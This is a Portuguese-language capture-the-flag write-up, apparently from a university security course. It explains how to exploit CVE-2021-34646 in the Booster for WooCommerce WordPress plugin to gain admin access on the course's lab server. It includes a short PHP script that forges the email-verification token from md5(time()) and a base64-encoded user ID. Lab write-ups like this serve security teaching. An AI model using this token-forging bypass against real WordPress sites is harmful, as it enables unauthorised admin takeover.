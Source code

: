 

---

## CTF

### Resolução

* Procuramos por CVE's associados aos plug-ins do site a atacar e encontramos o CVE-2021-34646, uma vulnerabilidade Booster for WooCommerce plugin 5.4.3.

![](https://i.imgur.com/FkSPmsx.png)


<p>
    Fig. CTF1- Plug-ins suscetíveis a vulnerabilidades.
</p>


* Após explorar a vulnerabilidade, percebemos que era fácil iniciar uma sessão como admin, bastando acrescentar no URL userID a 1, que é o ID típico para administradores.

![](https://i.imgur.com/aXAnynh.png)


<p>
    Fig. CTF2- Iniciar sessão com sucesso como admin.
</p>

* Para além disso,era necessário gerar um token de verificação de e-mail a partir do tempo de sessão como admin. Este token estava encriptado em MD5 e codificado em base 64. Por isso, era fácil gerar este token: bastava usar a função de PHP ```time()``` para obter o tempo até ao execução da sessão, gerar o token com as funções ```md5()``` e ```base64_encode()``` e inseri-lo no URL. Para isso, criámos um servidor local para correr o seguinte ficheiro PHP:

```php
<?php

$time = md5(time()); //tempo até ao momento codificado em MD5


fopen('http://ctf-fsi.fe.up.pt:5001/?wcj_user_id=1','r'); //inserir o ID do amdin


//criar token em base-64
$abc = base64_encode(json_encode(array('id' => 1, 'code' => $time)));


//inserir token no URL
header("Location: http://ctf-fsi.fe.up.pt:5001/?wcj_verify_email=" . $abc);
exit();

?>
```

![](https://i.imgur.com/SL7B3tM.png)

<p>
    Fig. CTF3- Acesso ao site como admin.
</p>

* Com a sessão iniciada como admin, foi possível aceder ao site http://ctf-fsi.fe.up.pt:5001/wp-admin/edit.php para encontrar o post que continha a flag do desafio.
